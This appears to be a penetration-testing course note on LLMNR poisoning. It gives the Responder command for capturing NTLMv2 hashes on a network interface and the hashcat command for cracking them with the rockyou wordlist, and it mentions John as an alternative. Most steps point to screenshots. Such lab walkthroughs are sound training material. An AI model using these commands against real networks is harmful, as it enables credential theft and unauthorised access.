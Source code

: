 ## LLMNR Poisoning - Capturing NTLMv2 Hashes
```bash
ifconfig 
sudo responder -I eth0
```

<img src="https://github.com/Nisha318/Nisha318.github.io/blob/master/assets/images/tcm-academy/llmnr-capture-ntlmv2hash-1.png"> 




</br>

<img src="https://github.com/Nisha318/Nisha318.github.io/blob/master/assets/images/tcm-academy/llmnr-capture-ntlmv2hash-2.png"> 






## Trigger an LLMNR Event

<img src="https://github.com/Nisha318/Nisha318.github.io/blob/master/assets/images/tcm-academy/llmnr-capture-ntlmv2hash-3.png"> 




## Dumping NTLMv2 Hashes
<img src="https://github.com/Nisha318/Nisha318.github.io/blob/master/assets/images/tcm-academy/llmnr-capture-ntlmv2hash-4.png"> 



## Save Hash to a file
<img src="https://github.com/Nisha318/Nisha318.github.io/blob/master/assets/images/tcm-academy/llmnr-capture-ntlmv2hash-5.png"> 



## Use Hashcat to crack the hash 
```bash
 hashcat -m 5600 hashes.txt /usr/share/wordlists/rockyou.txt
```
<img src="https://github.com/Nisha318/Nisha318.github.io/blob/master/assets/images/tcm-academy/llmnr-capture-ntlmv2hash-6.png"> 


<img src="https://github.com/Nisha318/Nisha318.github.io/blob/master/assets/images/tcm-academy/llmnr-capture-ntlmv2hash-7.png"> 

## Use John to crack the hash 
<img src="https://github.com/Nisha318/Nisha318.github.io/blob/master/assets/images/tcm-academy/llmnr-capture-ntlmv2hash-8.png"> 
